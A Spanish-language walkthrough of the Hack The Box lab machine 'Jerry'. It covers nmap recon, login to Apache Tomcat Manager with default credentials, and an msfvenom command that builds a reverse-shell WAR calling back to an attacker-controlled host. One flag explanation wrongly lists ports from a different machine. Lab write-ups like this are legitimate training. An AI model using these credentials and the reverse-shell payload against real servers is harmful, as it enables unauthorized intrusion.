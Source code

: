 ```yaml
---
title: Jerry
date: '2023-07-08'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Aunque Jerry es una de las máquinas más fáciles en Hack The Box, es realista, ya que Apache Tomcat se encuentra a menudo expuesto y configurado con credenciales comunes o débiles.'
images: ['/static/images/htb/jerry/jerry.png']
---
```


![Portada](/static/images/htb/jerry/jerry.png)

<br></br>

<TOCInline toc={props.toc} exclude="Introduccion" />

## Reconocimiento

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.10.95 con el comando ping.

```js
  ping -c 10.10.10.95
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/jerry/ping.png)

### Nmap

Luego, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.95 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Solo va a reportar los puertos que encuentre abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Nmap1](/static/images/htb/jerry/nmap1.png)

Al obtener la lista de los puertos abiertos en la maquina victima,realizamos otro escaneo pero solo a los que
nmap reporto como abiertos incluyendo las siguientes flags:

- `-sC` : Activa el escaneo utilizando scripts de enumeración y detección de servicios predeterminados. Los scripts se ejecutan contra los puertos abiertos para obtener información adicional sobre los servicios en ejecución.
- `-sV` : Realiza una detección de versión de los servicios que se encuentran en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando diversos métodos, como el envío de solicitudes específicas y la comparación de las respuestas recibidas.
- `-p` : Especifica los puertos que se escanearán. En este caso, se están escaneando los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Indica a Nmap que realice el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes ICMP de solicitud de eco.

```js
  nmap -sC -sV -p8080 10.10.10.95 -Pn
```

![Nmap2](/static/images/htb/jerry/nmap2.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version              |
| ---------------- | -------- | -------------------- |
| **_8080/tcp_**   | http     | Apache Tomcat 7.0.88 |

## Enumeracion

### Puerto 8080 HTTP

El puerto 8080 es comúnmente utilizado como un puerto alternativo para ejecutar servicios web. El servicio más común que se ejecuta en el puerto 8080 es un servidor web HTTP. Algunos servidores web populares, como `Apache Tomcat` y `JBoss`, utilizan el puerto `8080` como el puerto predeterminado para escuchar solicitudes HTTP. Sin embargo, es importante tener en cuenta que el puerto 8080 no está reservado exclusivamente para ningún servicio específico, por lo que otros servicios también pueden utilizarlo.

En este caso el servicio proporcionado es el de `Apache`, especificamente con la
version 7.0.88.

Abrimos en un navegador la direccion `http://10.10.10.95:8080` para dirigirnos a la pagina de inicio del servidor Apache.

![Apache](/static/images/htb/jerry/apache1.png)

Navegamos por ella para descubrir mas cosas y al clickear en `Server Status` nos aparece un cartel
para introducir credenciales. Ya que no tenemos, realizamos una busqueda por google acerca de
credenciales por default que utilice Apache en general o en esta version.
Y en esta [pagina](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) encontramos credenciales por default de Apache.

Procedemos a probar unas de ellas y `admin:admin` nos permite loguearnos.

![Apache](/static/images/htb/jerry/apache2.png)
![Apache](/static/images/htb/jerry/apache3.png)

Estamos en la pagina Server Status, esta pagina nos proporciona información detallada sobre el estado y el rendimiento del servidor web. Hacemos click en `List Applications` y me dirige a una pagina `403 - Acceso Denegado`, en la cual da un ejemplo de credenciales.

![Apache](/static/images/htb/jerry/apache4.png)

Como `admin:admin`, nos dio un acceso limitado en el servidor, probamos iniciar sesion
con `tomcat:s3cret` y esta vez si tenemos acceso a `List Application`.

![Apache](/static/images/htb/jerry/apache5.png)

Vemos que nos da la posibilidad de cargar archivos WAR.
![Apache](/static/images/htb/jerry/apache6.png)

### WAR

Los archivos WAR (Web Application Archive) son archivos comprimidos que contienen todos los componentes necesarios para ejecutar una aplicación web en el entorno de servidor Java. Estos archivos son utilizados principalmente en el desarrollo de aplicaciones Java EE (Enterprise Edition) o J2EE (Java 2 Enterprise Edition).

Un archivo WAR se crea para empaquetar y distribuir una aplicación web de Java de manera conveniente. Contiene todos los archivos necesarios para implementar y ejecutar la aplicación en un contenedor de servlets, como Apache Tomcat, JBoss, WebSphere, entre otros.

Buscamos en google `apache tomcat 7.0.88 war file upload` y encontramos una [web](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) en la cual explica paso a paso como generar un archivo WAR para obtener una [reverse shell](https://keepcoding.io/blog/que-es-una-shell-inversa/).

Vamos a seguir el paso a paso de esa publicacion.

## Explotacion

### Msfvenom

`Msfvenom` es una herramienta que forma parte del marco de trabajo `Metasploit`, un conjunto de herramientas de seguridad y pruebas de penetración ampliamente utilizado. Se utiliza específicamente para generar y manipular payloads (cargas útiles) maliciosas.

Una `carga útil` o `payload` es un fragmento de código malicioso que se utiliza para explotar una vulnerabilidad en un sistema o red con el fin de obtener acceso no autorizado o controlar el sistema objetivo. Estas cargas útiles se utilizan comúnmente en pruebas de penetración y evaluaciones de seguridad para detectar y corregir vulnerabilidades.

Msfvenom proporciona una interfaz de línea de comandos que permite a los usuarios generar diferentes tipos de cargas útiles, como exploits, troyanos, backdoors y shellcodes, adaptados a diferentes sistemas operativos y arquitecturas. Permite personalizar y configurar varios aspectos de la carga útil, como el tipo de exploit utilizado, la codificación, la forma de entrega, el mecanismo de persistencia y mucho más.

### Armando el payload

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.4.2 LPORT=4646 -f war > shell.war
```

- `-p java/jsp_shell_reverse_tcp`: Especifica el tipo de payload que se va a generar, en este caso, una reverse shell TCP basada en Java JSP. Esta reverse shell TCP permite al atacante establecer una conexión desde el sistema comprometido hacia el sistema del atacante.

- `LHOST=10.10.4.2`: Define la dirección IP a la cual la carga útil se conectará de forma reversa. En este caso, se utiliza la dirección IP "10.10.4.2" (vpn de `HTB`) como ejemplo. Debes reemplazarla con la dirección IP real del sistema que actuará como el punto de escucha para recibir la conexión de reversa.

- `LPORT=4646`: Especifica el puerto en el cual el payload se conectará de forma reversa. En este caso, se utiliza el puerto "4646" como ejemplo. Puedes modificarlo según tus necesidades, siempre teniendo en cuenta que no esté bloqueado por firewalls o utilizados por otros servicios.

- `-f war`: Indica el formato de salida deseado para la carga útil generada. En este caso, se especifica que se desea generar un archivo WAR (Web Application Archive), como se describió anteriormente.

- `> shell.war`: Redirige la salida generada por msfvenom hacia un archivo llamado "shell.war". Puedes cambiar el nombre del archivo según tus preferencias.

![Exploit](/static/images/htb/jerry/exploit.png)

Luego de haber generado el exploit, ponemos el puerto 4646 en escucha.

![Puerto](/static/images/htb/jerry/puerto.png)

Volvemos a la pagina del servidor Apache,cargamos nuestro exploit y navegamos hacia `http://10.10.10.95:8080/shell/`.

![Carga](/static/images/htb/jerry/upload.png)
![Carga2](/static/images/htb/jerry/upload2.png)
![Shell](/static/images/htb/jerry/shell.png)

Volvemos a la consola donde teniamos el puerto 4646 en escucha y nos encontramos dentro de la maquina
victima. Luego de eso navegamos por los directorios y encontramos las dos flags juntas.
![Dir](/static/images/htb/jerry/dir1.png)
![Dir2](/static/images/htb/jerry/dir2.png)
